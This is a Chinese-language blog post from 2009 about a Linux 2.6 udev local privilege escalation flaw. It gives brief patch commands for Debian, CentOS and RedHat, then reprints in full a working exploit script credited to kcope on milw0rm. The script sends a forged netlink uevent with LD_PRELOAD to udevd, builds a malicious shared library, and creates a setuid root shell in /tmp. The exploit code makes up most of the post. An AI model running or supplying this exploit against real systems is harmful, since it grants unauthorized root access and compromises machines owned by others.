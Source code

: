 ```yaml
---
title: Linux本地提权漏洞Linux Kernel 2.6 UDEV Local Privilege Escalation Exploit
description: Linux本地提权漏洞，对RHEL5.Xx86和x64和Debian4.x5.xx86和x64很有效，速度更新udev吧Linux的udev程序再爆本地提权漏洞，本地用户可以轻易获得root权限，请立即更新udev程序。（2.4内核系统不受影响）修复方法(修复前请备份重要数据)：debian用户请执行apt-getupdate;apt-getupgrade-ycentos用户请执行yumupdateudevRedHat用户请使用官方rpm包更新或者购买RedHat的satellite服务。Linux本地提权漏洞LinuxKernel2.6UDEVLocalPrivilegeEscalationExploit：......
date: 2009-04-25 10:31:59
category: 漏洞信息
tags: ['漏洞信息', 'Linux', 'exploit']
post_id: 841
alias: Linux-Kernel-2.6-UDEV-Local-Privilege-Escalation-Exploit
ViewNums: 4818
---
```


[Linux本地提权漏洞](/blog/linux-kernel-26-udev-local-privilege-escalation-exploit)，对 RHEL 5.X x86和x64 和 Debian 4.x 5.x x86和x64很有效，速度更新udev吧

[Linux的udev程序再爆本地提权漏洞](/blog/linux-kernel-26-udev-local-privilege-escalation-exploit)，本地用户可以轻易获得root权限，请立即更新udev程序。（2.4内核系统不受影响）
修复方法(**修复前请备份重要数据**)：

debian用户请执行apt-get update ; apt-get upgrade -y

centos用户请执行yum update udev

RedHat用户请使用官方rpm包更新或者购买RedHat的satellite服务。

[Linux本地提权漏洞Linux Kernel 2.6 UDEV Local Privilege Escalation Exploit](/blog/linux-kernel-26-udev-local-privilege-escalation-exploit)：

```
#!/bin/sh
# Linux 2.6
# bug found by Sebastian Krahmer
#
# lame sploit using LD technique
# by kcope in 2009
# tested on debian-etch,ubuntu,gentoo
# do a 'cat /proc/net/netlink'
# and set the first arg to this
# script to the pid of the netlink socket
# (the pid is udevd_pid - 1 most of the time)
# + sploit has to be UNIX formatted text :)
# + if it doesn't work the 1st time try more often
#
# WARNING: maybe needs some FIXUP to work flawlessly
## greetz fly out to alex,andi,adize,wY!,revo,j! and the gang
```
```
cat > udev.c << _EOF
#include <fcntl.h>
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>
#include <dirent.h>
#include <sys/stat.h>
#include <sysexits.h>
#include <wait.h>
#include <signal.h>
#include <sys/socket.h>
#include <linux/types.h>
#include <linux/netlink.h>
```
```
#ifndef NETLINK_KOBJECT_UEVENT
#define NETLINK_KOBJECT_UEVENT 15
#endif
```
```
#define SHORT_STRING 64
#define MEDIUM_STRING 128
#define BIG_STRING 256
#define LONG_STRING 1024
#define EXTRALONG_STRING 4096
#define TRUE 1
#define FALSE 0
```
```
int socket_fd;
struct sockaddr_nl address;
struct msghdr msg;
struct iovec iovector;
int sz = 64*1024;
```
```
main(int argc, char **argv) {
        char sysfspath[SHORT_STRING];
        char subsystem[SHORT_STRING];
        char event[SHORT_STRING];
        char major[SHORT_STRING];
        char minor[SHORT_STRING];
```
```
        sprintf(event, "add");
        sprintf(subsystem, "block");
        sprintf(sysfspath, "/dev/foo");
        sprintf(major, "8");
        sprintf(minor, "1");
```
```
        memset(&address, 0, sizeof(address));
        address.nl_family = AF_NETLINK;
        address.nl_pid = atoi(argv[1]);
        address.nl_groups = 0;
```
```
        msg.msg_name = (void*)&address;
        msg.msg_namelen = sizeof(address);
        msg.msg_iov = &iovector;
        msg.msg_iovlen = 1;
```
```
        socket_fd = socket(AF_NETLINK, SOCK_DGRAM, NETLINK_KOBJECT_UEVENT);
        bind(socket_fd, (struct sockaddr *) &address, sizeof(address));
```
```
        char message[LONG_STRING];
        char *mp;
```
```
        mp = message;
        mp += sprintf(mp, "%s@%s", event, sysfspath) +1;
        mp += sprintf(mp, "ACTION=%s", event) +1;
        mp += sprintf(mp, "DEVPATH=%s", sysfspath) +1;
        mp += sprintf(mp, "MAJOR=%s", major) +1;
        mp += sprintf(mp, "MINOR=%s", minor) +1;
        mp += sprintf(mp, "SUBSYSTEM=%s", subsystem) +1;
        mp += sprintf(mp, "LD_PRELOAD=/tmp/libno_ex.so.1.0") +1;
```
```
        iovector.iov_base = (void*)message;
        iovector.iov_len = (int)(mp-message);
```
```
        char *buf;
        int buflen;
        buf = (char *) &msg;
        buflen = (int)(mp-message);
```
```
        sendmsg(socket_fd, &msg, 0);
```
```
        close(socket_fd);
```
```
 sleep(10);
 execl("/tmp/suid", "suid", (void*)0);
}
```
```
_EOF
gcc udev.c -o /tmp/udev
cat > program.c << _EOF
#include <unistd.h>
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
```
```
void _init()
{
 setgid(0);
 setuid(0);
 unsetenv("LD_PRELOAD");
 execl("/bin/sh","sh","-c","chown root:root /tmp/suid; chmod +s /tmp/suid",NULL);
}
```
```
_EOF
gcc -o program.o -c program.c -fPIC
gcc -shared -Wl,-soname,libno_ex.so.1 -o libno_ex.so.1.0 program.o -nostartfiles
cat > suid.c << _EOF
int main(void) {
       setgid(0); setuid(0);
       execl("/bin/sh","sh",0); }
_EOF
gcc -o /tmp/suid suid.c
cp libno_ex.so.1.0 /tmp/libno_ex.so.1.0
/tmp/udev $1
```

# [milw0rm.com](http://www.milw0rm.com/exploits/8478) [2009-04-20]


